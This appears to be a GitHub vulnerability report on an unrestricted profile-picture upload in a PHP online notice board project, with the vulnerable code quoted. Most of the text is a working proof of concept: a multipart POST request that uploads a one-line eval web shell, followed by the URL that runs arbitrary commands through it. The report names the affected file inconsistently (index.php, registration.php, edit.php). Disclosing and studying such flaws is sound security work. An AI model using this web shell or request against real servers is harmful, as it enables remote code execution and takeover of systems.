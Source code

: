 # online-notice-board-using-php has unrestricted upload that can cause remote code execution vulnerability in index.php

## supplier 
https://code-projects.org/online-notice-board-using-php-source-code/  
## Vulnerability file
registration.php  

## describe
Attacker can upload malicious file when registering through the profile picture upload.  
The uploaded profile picture is in no restrictions and will be stored in /images/{USER-EMAIL}/{UPLOAD_FILENAME}  
Hackers can upload .php file such as <? eval($_GET[1])?> and visit /images/{USER-EMAIL}/malicious_php_file.php?1={ANY COMMAND HERE} to execute any command.  

**Code analysis**    

Line 36-37 in edit.php
```
mkdir("images/$e");
move_uploaded_file($_FILES['img']['tmp_name'],"images/$e/".$_FILES['img']['name']);
```
parameter $e is user's email when registering.  
no retrictions to the image uploaded.  

## POC

```
POST /registration.php HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 1172
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8081/registration.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="n"

test
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="e"

test
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="p"

test
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="mob"

test
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="gen"

test
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="hob[]"

reading
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="img"; filename="basic_webshell.php"
Content-Type: application/octet-stream

<?php @eval($_GET['attack']);?>

------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="yy"

1950
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="mm"

2
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="dd"

3
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB
Content-Disposition: form-data; name="save"

Save
------WebKitFormBoundaryrHSdH2MF1kcJ6HUB--


```
Visit this URL to execute any command 
```
/images/test/basic_webshell.php?attack={YOUR COMMAND}
```

**Result**

![image](https://github.com/user-attachments/assets/68dbbe94-0b0f-48ed-ad62-7751d32e0f3d)

